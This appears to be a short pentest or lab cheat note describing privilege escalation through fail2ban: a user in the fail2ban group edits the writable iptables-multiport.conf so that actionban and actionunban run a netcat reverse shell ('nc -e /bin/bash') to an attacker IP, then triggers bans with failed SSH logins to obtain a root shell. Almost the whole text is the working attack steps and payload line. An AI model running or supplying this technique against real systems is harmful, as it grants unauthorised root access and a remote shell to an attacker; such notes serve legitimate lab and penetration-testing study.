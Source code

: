 # fail2ban

```
$ id
uid=1000(fox) gid=1001(fox) groups=1001(fox),1000(fail2ban)
```

[https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/](https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/)

```
$ /etc/init.d/fail2ban status

$ ls -lh /etc/fail2ban
drwxrwxr-x  2 root fail2ban 4.0K Dec  3  2020 action.d

# /etc/fail2ban/action.d is WRITABLE by fail2ban group

$ cd /etc/fail2ban/action.d
$ vim iptables-multiport.conf

#Edit as following
*****************************
actionban = /usr/bin/nc -e /bin/bash 192.168.49.145 4444
actionunban = /usr/bin/nc -e /bin/bash 192.168.49.145 4444
*****************************

#Couple times with wrong pass then got root shell
$ ssh fox@192.168.145.126
```
